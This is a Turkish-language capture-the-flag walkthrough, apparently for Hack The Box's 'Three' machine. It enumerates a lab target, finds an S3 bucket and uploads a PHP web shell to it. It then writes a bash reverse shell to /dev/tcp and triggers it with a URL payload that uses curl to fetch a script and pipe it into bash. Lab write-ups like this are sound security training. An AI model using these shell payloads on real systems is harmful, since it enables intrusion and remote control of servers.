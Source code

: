 # Three

!!! info "Target IP Address"

    10.129.227.248

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.227.248 -p- -Pn -T5 --open
```

```text title="Output" hl_lines="7"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-22 00:28 +03
Nmap scan report for 10.129.227.248
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.73 second
```

Web tarayıcısında [http://10.129.227.248](http://10.129.227.248) adresine gidildiğinde yönlendirilen siteye (`thetoppers.htb`) erişebilmek için aşağıdaki komutu çalıştır:

```bash
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
```

Ardından aşağıdaki komutu çalıştır:

```bash
gobuster vhost --append-domain -u thetoppers.htb -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

```text title="Output" hl_lines="15"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]

...SNIP...
```

!!! info "Amazon S3"

    Gobuster ile elde edilen vHost bilgisini Google üzerinde aratırsak, bundan sonraki adımlarımızın [Amazon S3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html) ile ilgili olacağını öğrenebiliriz.

Web tarayıcısında S3 kovasına (`s3.thetoppers.htb`) erişebilmek için aşağıdaki komutu çalıştır:

```bash
echo "10.129.227.248 s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

AWS yapılandırmasını gerçekleştir (sorulduğunda her seçenek için `temp` değerini verebilirsin):

```bash
aws configure
```

```text title="Output"
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

Aşağıdaki one-liner komutunu PHP dosyası olarak kaydet:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```



Oluşturulan bu dosyayı S3 kovasına (bucket) yükle:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Ardından aşağıdaki reverse shell dosyasını oluştur:

```bash title="shell.sh" linenums="1"
#!/bin/bash

bash -i >&/dev/tcp/10.10.14.253/1337 0>&1
```

Netcat ile 1337 numaralı port üzerinden dinlemeye başla:

```bash
nc -nvlp 1337
```

Reverse shell dosyasının bulunduğu dizinde bir Python HTTP sunucusu başlat:

```bash
python -m http.server 8000
```

Web tarayıcısında [https://thetoppers.htb/shell.php?cmd=curl%2010.10.14.253:8000/shell.sh|bash](https://thetoppers.htb/shell.php?cmd=curl%2010.10.14.253:8000/shell.sh|bash) adresine giderek Netcat üzerinde reverse shell elde et ve bu shell üzerinde aşağıdaki komut ile bayrağı ele geçir:

```bash
cat /var/www/flag.txt
```
